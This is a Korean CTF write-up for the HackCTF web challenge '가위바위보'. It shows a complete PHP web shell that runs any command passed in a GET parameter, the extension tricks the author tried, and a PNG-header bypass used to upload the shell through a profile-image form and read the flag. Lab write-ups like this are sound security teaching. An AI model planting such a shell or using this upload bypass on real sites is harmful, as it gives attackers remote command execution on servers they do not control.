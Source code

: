 ```yaml
---
title: 'HackCTF - WEB - 가위바위보'
date: 2020-04-05 21:04:76
---
```

# HackCTF - WEB - 가위바위보

일단 문제 사이트에 접속을 합니다.

![image-20191210202755946](image/HackCTF - WEB - 가위바위보/image-20191210202755946.png)

접속을 하면 간단한 가위바위보 게임을 즐길 수 있는 사이트가 하나 나오는데 여기서 오른쪽 위의 계정 설정으로 들어갑니다.!

![image-20191210202853478](image/HackCTF - WEB - 가위바위보/image-20191210202853478.png)

그러면 계정에 대해 프로필 이미지와 이름을 변경할 수 있는 것을 보이는데 파일 업로드가 가능 하다는 점에서 파일 업로드 취약점을 이용 해야 한다는 것을 알 수 있습니다. 일단 한번 간단한 웹쉘 코드를 짜고 업로드를 해봅니다.

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

위와 같이 웹쉘을 제작 해서 파일을 업로드 해봅니다.!

webshell.php , webshell.png.php, webshell.php%00.png 등등 확장자를 변경하여 시도를 하였는데 아래와 같이 이미지 파일이 아니라는 경고를 내보내는 모습을 볼 수 있습니다.

![image-20191210203401282](image/HackCTF - WEB - 가위바위보/image-20191210203401282.png)

이번에는 파일 헤더에 PNG을 의미하는 헤더를 집어 넣음으로 한번 우회를 해봅니다.

![image-20191210203617292](image/HackCTF - WEB - 가위바위보/image-20191210203617292.png)

이제 수정한 파일을 업로드 해보면 정상적으로 업로드가 되는 모습을 알 수 있습니다.

![image-20191210203716410](image/HackCTF - WEB - 가위바위보/image-20191210203716410.png)

이때 파일을 열어보면 아래와 같이 이름으로 열리는 모습을 볼 수 있는데 이름을 .php의 확장자 이름으로 변경하여 다시 업로드 해봅니다.

![image-20191210203730274](image/HackCTF - WEB - 가위바위보/image-20191210203730274.png)

![image-20191210203840049](image/HackCTF - WEB - 가위바위보/image-20191210203840049.png)

이제 여기서 이미지의 주소를 새 창으로 띄어 보면 정상적으로 웹쉘이 실행된 모습을 볼 수 있는데 flag 파일을 찾아 출력 합니다.

![image-20191210204043068](image/HackCTF - WEB - 가위바위보/image-20191210204043068.png)
